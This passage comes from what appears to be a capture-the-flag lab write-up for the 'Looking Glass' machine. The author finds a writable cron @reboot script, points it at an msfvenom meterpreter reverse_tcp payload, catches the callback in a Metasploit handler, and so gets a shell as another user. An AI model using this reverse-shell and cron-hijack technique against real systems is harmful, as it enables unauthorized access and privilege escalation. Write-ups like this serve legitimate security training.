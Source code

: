 That's enough of manual searching, time to run a automated local enumeration. I ran linpeas.sh as jabberwock.

In the report generated by linpeas.sh, I found the following line very interesting:

![tweedledum reboot](/img/thm-lookingglass/tweedledum-reboot.png)

This is written in file `/etc/crontab`:

![crontab](/img/thm-lookingglass/crontab.png)

User tweedledum will run the `twasBrillig.sh` script we found above at reboot. By altering this script, we should be able to get a shell of tweedledum.

To do this, I first generated a payload with `msfvenom`:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.xx.xx.xx LPORT=4443 -f elf -o mt.bin
```

![venom](/img/thm-lookingglass/venom.png)

Then uploaded it to the target machine, and added the following line into `twasBrillig.sh`:

```bash
/home/jabberwock/mt.bin
```

On my local machine, I started Metasploit, and selected the exploit, selected the payload and started listening:

```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
exploit
```

Then on the target machine as jabberwock:

```bash
sudo reboot
```

After waiting for a while, I received the connection:

![connection received](/img/thm-lookingglass/conn-recv.png)


Inside tweedledum's home directory, 2 text files are interesting:

![tweedledum home](/img/thm-lookingglass/tweedledum-home.png)

So I downloaded `humptydumpty.txt` and investigated it. I tried to reverse the hex string into binary and see what it contains:

![humptydumpty](/img/thm-lookingglass/humptydumpty.png)

But what password is this?
